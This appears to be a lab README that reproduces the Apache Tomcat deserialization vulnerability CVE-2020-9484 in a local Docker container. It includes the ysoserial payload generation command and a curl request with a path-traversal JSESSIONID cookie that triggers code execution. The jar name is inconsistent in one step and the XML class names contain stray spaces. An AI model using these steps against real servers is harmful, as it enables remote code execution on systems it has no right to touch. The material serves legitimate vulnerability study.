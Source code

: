 # CVE-2020-9484

## Description

When using Apache Tomcat versions 10.0.0-M1 to 10.0.0-M4, 9.0.0.M1 to 9.0.34, 8.5.0 to 8.5.54 and 7.0.0 to 7.0.103 if (a) an attacker is able to control the contents and name of a file on the server; and (b) the server is configured to use the PersistentManager with a FileStore; and (c) the PersistentManager is configured with sessionAttributeValueClassNameFilter="null" (the default unless a SecurityManager is used) or a sufficiently lax filter to allow the attacker provided object to be deserialized; and (d) the attacker knows the relative file path from the storage location used by FileStore to the file the attacker has control over; then, using a specifically crafted request, the attacker will be able to trigger remote code execution via deserialization of the file under their control. Note that all of conditions (a) to (d) must be true for the attack to succeed.

## Setup

1. First get ysoserial.jar, which will be used for crafting the exploit.

    ```bash
    wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar -O ysoserial.jar
    ```

2. Next build and run the docker container.

    ```bash
    docker build . -t vulntomcat
    docker run -p 8080:8080 --name vulntomcatcontainer vulntomcat
    ```

    Some of the important files in the docker container are:

    ```xml
    <!-- /usr/local/tomcat/conf/server.xml -->
    <?xml version="1.0" encoding="UTF-8"?>
    <Context>
        <Manager className="org.apache.catalina.session.    PersistentManager" saveOnRestart="true">
            <Store className="org.apache.catalina.session.  FileStore" directory="/usr/local/tomcat/sessions"/>
        </Manager>
    </Context>
    ```

    This sets up Tomcat as the requirements for this CVE.

## Exploit

1. Now we generate the payload using ysoserial (a lot of extra flags because [Java is the world's best language, i am not joking, i love Java](https://forum.portswigger.net/thread/ysoserial-stopped-working-b5a161f42f)).

    ```bash
    java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar yoserial.jar CommonsCollections2 'touch /tmp/pwned' > payload.session
    ```

2. Then we upload the payload to the server. Here we are just using docker cp to copy the file into the container.

    ```bash
    docker cp payload.session vulntomcatcontainer:/usr/local/tomcat/upload/payload.session
    ```

3. Finally, we send the crafted request to the server.

    ```bash
    curl -s -X GET http://localhost:8080/index.jsp -H "Cookie: JSESSIONID=../../../../../usr/local/tomcat/upload/payload"
    ```

    This will trigger the deserialization of the payload and execute the command.

4. If the command was executed successfully, you should see the file `/tmp/pwned` created.

    ```bash
    docker exec -it vulntomcatcontainer ls /tmp
    ```
